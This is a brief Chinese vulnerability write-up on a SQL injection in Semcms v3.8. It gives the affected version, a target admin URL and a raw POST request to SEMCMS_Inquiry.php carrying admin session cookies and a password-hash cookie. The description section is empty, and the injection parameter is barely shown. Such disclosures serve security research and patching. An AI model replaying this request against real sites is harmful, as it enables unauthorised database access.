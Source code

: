 ```yaml
---
title: "Semcms v3.8 sql注入漏洞"
id: zhfly3123
---
```


# Semcms v3.8 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Semcms v3.8

## 三、复现过程

> URL: http://0-sec.org/123/sOWj5B_Admin/SEMCMS_Inquiry.php

![image](../img/24b32bfb3a0fd141513ec050add0f910.png)

*   POST

```
POST /123/sOWj5B_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
Host: 0-sec.org
Content-Length: 24
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MEIQIA_EXTRA_TRACK_ID=1F7WZdk3rwHIzKqUfkrNaZ9t1EE; _ga=GA1.1.1842664860.1547715044; UM_distinctid=169c55686280-0636c606d502d3-36664c08-1fa400-169c556862b2e4; CNZZDATA1256162028=1606185978-1553793969-%7C1553793969; CNZZDATA1707573=cnzz_eid%3D987595238-1554794879-http%253A%252F%252F127.0.0.1%252F%26ntime%3D1554913098; PHPSESSID=n75nrqp26757vguhhgd4mlptd4; __51cke__=; __tins__4329483=%7B%22sid%22%3A%201556088941568%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201556090843766%7D; __51laig__=3; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Connection: close `languageID=&AID%5B%5D=3` 
```

![image](../img/edb69747b6e71cbfca00b58e79d63879.png)